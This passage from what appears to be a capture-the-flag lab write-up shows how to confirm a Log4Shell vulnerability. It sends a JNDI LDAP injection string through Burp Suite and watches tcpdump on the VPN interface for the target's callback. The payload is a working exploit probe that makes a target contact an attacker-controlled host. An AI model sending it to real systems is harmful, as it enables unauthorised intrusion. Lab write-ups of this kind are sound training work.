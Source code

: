 `-i tun0` - Specifies the network interface to capture traffic on, in this case, `tun0`, which is our VPN tunnel interface.

`port 389` - Filters the captured traffic to only show packets on port `389`, which is commonly used by `LDAP`.

For testing I modified previous `payload`(port from 1389 to 389):

```
"${jndi:ldap://{your tun0 ip}:389/{whatever you want}}"
```

to see the response.

![Burpsuite](./Screenshots/unifiedburp4.png)

Press `Send`.

![Burpsuite](./Screenshots/unifiedtcpdump2.png)

The `tcpdump` output shows that our machine is receiving an incoming connection, which confirms that the application `is vulnerable`.
